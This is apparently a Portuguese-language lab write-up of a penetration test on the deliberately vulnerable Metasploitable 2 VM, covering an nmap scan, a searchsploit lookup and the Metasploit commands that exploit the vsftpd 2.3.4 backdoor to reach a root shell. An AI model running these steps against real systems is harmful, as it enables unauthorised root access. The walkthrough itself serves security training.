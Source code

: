 # Write-up: Pentest na Máquina Metasploitable 2

Este é um relatório detalhado do teste de invasão realizado na máquina virtual Metasploitable 2, dentro de um ambiente de laboratório controlado.

**Máquina-Alvo:** Metasploitable 2

**Máquina de Ataque:** Kali Linux

**Objetivo:** Identificar vulnerabilidades, explorá-las para obter acesso inicial e escalar privilégios.

---

## Fase 1: Reconhecimento (Reconnaissance)

O primeiro passo foi identificar as portas e serviços rodando na máquina-alvo. Utilizei a ferramenta `nmap` com os seguintes comandos: **nmap -sV -p- 192.168.56.102**. O scan revelou várias portas abertas. A mais crítica parecia ser a porta 21 (FTP), que está rodando uma versão antiga: vsftpd 2.3.4.

<img width="646" height="517" alt="nmap-scan png" src="https://github.com/user-attachments/assets/41874998-8607-4181-8d77-e6d23cde642f" />


## Fase 2: Análise de Vulnerabilidade

Com foco no serviço vsftpd 2.3.4, usei o comando **searchsploit** para verificar por falhas conhecidas. O resultado confirmou que esta versão possui um backdoor crítico quee permite a execução remota de comandos.

<img width="646" height="215" alt="searchexploit png" src="https://github.com/user-attachments/assets/4dc6c711-1428-4723-b2c8-d2b7ac253e56" />


## Fase 3: Exploração

Encontradas as vulnerabilidades, iniciei o o processo de invasão do sistemas por meio de diversos comandos:
**msf6 > search vsftpd_234
  msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
  msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.102
  msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit**

<img width="635" height="230" alt="invasao png" src="https://github.com/user-attachments/assets/02a14128-052f-483b-9257-6d5b822f56db" />

## Fase 4: Pós-Exploração (Acesso Obtido)
**whoami
  id**

Como prova de acesso, os comandos 'whoami' e 'id' foram executados, confirmando que o shell foi obtido com privilégios de root e controle total sobre o sistema-alvo.

<img width="647" height="93" alt="root png" src="https://github.com/user-attachments/assets/84bc62ab-28bc-4cf7-a61b-46d14f869a99" />
